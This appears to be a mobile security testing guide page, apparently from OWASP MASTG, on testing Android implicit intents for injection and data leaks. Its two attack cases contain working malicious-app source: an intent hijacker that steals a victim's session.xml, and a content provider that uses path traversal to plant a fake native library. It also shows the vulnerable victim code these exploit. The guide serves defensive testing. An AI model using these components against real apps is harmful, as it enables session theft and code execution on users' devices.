## Overview

When testing for [implicit intents](https://mas.owasp.org/MASTG/Android/0x05h-Testing-Platform-Interaction#implicit-intents) you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.

## Static Analysis

Inspect the Android Manifest and look for any `<intent>` signatures defined inside [blocks ↗](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following `Intent` doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action `android.intent.action.GET_CONTENT` to ask the user for input data and then the app starts the intent by `startActivityForResult` and specifying an image chooser.

`Intent intent = new Intent(); intent.setAction("android.intent.action.GET_CONTENT"); startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);`

The app uses `startActivityForResult` instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/' storage. A full description of this type of attack can be found in the [following blog post ↗](https://blog.oversecured.com/Interception-of-Android-implicit-intents "Current attacks on implicit intents").

### Case 1: Arbitrary File Read

In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname>` due to the improper validation of the return value of the intent.

The `performAction` method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling `getExternalCacheDir` or `getExternalFilesDir` an attacker can read this file if he sets the permission `android.permission.READ_EXTERNAL_STORAGE`.

`private void performAction(Action action){   ...   Uri data = intent.getData();   if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {       ...   } }  private FileItem getFileItemFromUri(Context, context, Uri uri){   String fileName = UriExtensions.getFileName(uri, context);   File file = new File(getExternalCacheDir(), "tmp");   file.createNewFile();   copy(context.openInputStream(uri), new FileOutputStream(file));   ... }`

The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml

`<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" /> <application>   <activity android:name=".EvilContentActivity">       <intent-filter android:priority="999">           <action android:name="android.intent.action.GET_CONTENT" />           <data android:mimeType="*/*" />       </intent-filter>   </activity> </application>`

EvilContentActivity.java

`public class EvilContentActivity extends Activity{   @Override   protected void OnCreate(@Nullable Bundle savedInstanceState){     super.OnCreate(savedInstanceState);     setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));     finish();   } }`

If the user selects the malicious app to handle the intent, the attacker can now steal the `session.xml` file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.

`Intent intent = new Intent("android.intent.action.GET_CONTENT"); for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {     intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);     startActivityForResult(intent);     return; }`

### Case 2: Arbitrary Code Execution

An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a [`ContentProvider` ↗](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") that contains `public Cursor query(...)` to set an arbitrary file (in this case _lib.so_), and if the victim loads this file from the content provider by executing `copy` the attacker's `ParcelFileDescriptor openFile(...)` method will be executed and return a malicious _fakelib.so_.

AndroidManifest.xml

`<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" /> <application>   <activity android:name=".EvilContentActivity">       <intent-filter android:priority="999">           <action android:name="android.intent.action.GET_CONTENT" />           <data android:mimeType="*/*" />       </intent-filter>   </activity>   <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider> </application>`

EvilContentProvider.java

`public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {     MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});     matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});     return matrixCursor; } public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {     return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY); }`

EvilContentActivity.java

`public class EvilContentActivity extends Activity{   @Override   protected void OnCreate(@Nullable Bundle savedInstanceState){     super.OnCreate(savedInstanceState);     setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));     finish();   } }`

## Dynamic Analysis

A convenient way to dynamically test for implicit intents, especially to identify potentially leaked sensitive data, is to use Frida or frida-trace and hook the `startActivityForResult` and `onActivityResult` methods and inspect the provided intents and the data they contain.

## Resources

- [Current attacks on implicit intents ↗](https://blog.oversecured.com/Interception-of-Android-implicit-intents "Current attacks on implicit intents")
- [Android ContentProvider ↗](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider")
- [Android queries ↗](https://developer.android.com/guide/topics/manifest/queries-element "Android queries")